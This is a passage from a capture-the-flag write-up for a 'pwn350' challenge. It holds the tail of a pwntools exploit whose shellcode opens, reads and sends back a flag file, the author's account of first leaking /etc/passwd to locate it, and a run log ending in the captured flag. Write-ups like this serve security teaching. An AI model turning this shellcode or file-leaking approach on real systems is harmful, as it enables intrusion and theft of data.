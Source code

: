 ```python
    stage2 += asm("mov rsi, 0x0")
    stage2 += asm("syscall")
    stage2 += asm("mov r15, rax")

    # read flag from fd
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, r15")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")
    
    # write flag to sockfd
    stage2 += asm("mov rax, 0x1")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")

    r.send(stage2)

    print "hit enter to send flag location"
    raw_input()
    r.send("/home/ctf/flag\x00")

    print r.recv()

else:
    print "can't exploit this one."
```

If you're wondering how I knew where the flag was, I initially didn't. I assumed it was in the same directory as the running binary but it wasn't. I initially used the exploit to leak the contents of /etc/passwd which revealed a home directory /home/ctf. Pwn100 had the same setup with the flag in /home/ctf/flag, so it made sense to try it. 

I had to try the exploit several times since the received executable wasn't always exploitable. It worked best when the bytes read was greater than the buffer size by over 100 bytes. When it finally worked:

```
saving binary as "mybin"
[+] Opening connection to 52.20.10.244 on port 8888: Done
[+] Recieving all data: Done (8.75KB)
[*] Closed connection to 52.20.10.244 port 8888
[*] '/root/Desktop/pwn350/mybin'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
port: 18716
toread: 369
bufsiz: 200
exploitable!
[+] Opening connection to 52.20.10.244 on port 18716: Done
sending stage 1
hit enter to send stage 2

hit enter to send flag location

flag{c4nt_w4it_f0r_cgc_7h15_y34r}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00...
[*] Closed connection to 52.20.10.244 port 18716
```
